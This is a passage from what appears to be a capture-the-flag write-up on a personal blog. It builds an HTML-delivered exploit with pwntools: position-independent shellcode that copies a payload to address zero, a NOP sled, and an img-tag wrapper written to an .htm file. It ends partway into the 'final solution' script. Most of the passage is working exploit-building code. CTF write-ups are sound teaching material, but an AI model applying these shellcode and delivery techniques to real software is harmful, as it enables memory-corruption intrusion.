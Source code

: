 ```python

# set MOV destination (edi) to base address 0x00000000
setup = asm('xor edi, edi')
# MOV the entire payload to destination
setup += asm(f'mov ecx, {len(payload)}')
# trick we use to set the source to current EIP
get_eip = asm('call $+5')
print(get_eip.hex(), len(get_eip))
setup += get_eip
setup += asm('pop esi')
# Add offset from EIP to start of payload
setup += asm('add esi, 13')
# MOV PAYLOAD to destination
setup += asm('rep movsb')
# jmp to ENTRYPOINT
setup += asm(f'mov eax, {ENTRY}')
setup += asm(f'jmp eax')
# Combine setup and payload
payload = setup + payload
# Append nopslide
payload = nop(MAX_LENGTH-len(payload)) + payload
payload_wrap =  b"<img src='data:base64,'" + payload + b"'/>"


print(exploit.hex())
with open('test.htm', 'wb') as exploithtm:
  exploithtm.write(HEADER)
  exploithtm.write(tagger(exploit))
  # append a lot of characters
  exploithtm.write(payload_wrap)
```

And we managed to extract the fake flag!!!

![test extract](https://gfelber.dev/img/test_extract.png)

Now we only need to make our website and extract port publicly visible and we WIN!!!

### Final Solution

*exploit_gen.py*

```python
#!/bin/python
from pwn import *

HEADER = b'<html><body>'
MAX_LENGTH=0x100000
ENTRY = 0x1A1
out = []
  
PAYLOAD_FILE='./programs/payload'
# PAYLOAD_FILE='./test'

with open(PAYLOAD_FILE, 'rb') as test:
 payload = test.read()

setup = asm('xor edi, edi')
setup += asm(f'mov ecx, {len(payload)}')
get_eip = asm('call $+5')
print(get_eip.hex(), len(get_eip))
setup += get_eip
setup += asm('pop esi')
setup += asm('add esi, 13')
setup += asm('rep movsb')
```